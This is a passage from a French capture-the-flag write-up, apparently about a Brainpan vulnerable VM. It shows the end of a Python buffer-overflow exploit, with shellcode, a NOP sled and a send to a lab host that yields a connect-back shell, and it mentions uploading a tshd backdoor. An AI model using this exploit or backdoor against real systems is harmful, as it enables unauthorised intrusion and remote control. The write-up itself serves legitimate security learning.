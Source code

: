 ```python
shellcode += "\x0e\x27\xc8\x22\xd6\x0b\xcb\x34\xd7\x41\xbd\xd8\x66"                                                                                                                                            
shellcode += "\x3c\xf8\xe7\x47\xa8\x0c\x90\xb5\x48\xf2\x4b\x7e\x78"                                                                                                                                            
shellcode += "\xb9\xd1\xd7\x11\x64\x80\x65\x7c\x97\x7f\xa9\x79\x14"                                                                                                                                            
shellcode += "\x75\x52\x7e\x04\xfc\x57\x3a\x82\xed\x25\x53\x67\x11"                                                                                                                                            
shellcode += "\x99\x54\xa2"                                                                                                                                                                                    

buff = "\x90" * (524 - len(shellcode)) + shellcode + struct.pack("I", popret)                                                                                                                                  

sock = socket.socket()                                                                                                                                                                                         
sock.connect(('192.168.1.43', 9999))                                                                                                                                                                           
print "[*] Connected, sending payload (connect-back 8888)"                                                                                                                                                     
sock.recv(1024)                                                                                                                                                                                                
sock.send(buff)                                                                                                                                                                                                
raw_input("Enjoy your shell, press enter to exit")                                                                                                                                                             
sock.close()
```

![Connect back](https://raw.githubusercontent.com/devl00p/blog/master/images/brainpan_1/connect_back.png)

A ma grande surprise on peut faire exécuter des commandes linux depuis l'invite de commande récupérée (j'ai testé préalablement sur ma machine et ça ne fonctionnait pas).  

![Linux command from wine](https://raw.githubusercontent.com/devl00p/blog/master/images/brainpan_1/linux_wine.png)

Comme sur le *Brainpan1*, j'uploade un *tshd* car aucun serveur SSH ne tourne sur le système.  

Je retrouve le script chargé de redémarrer les services :  
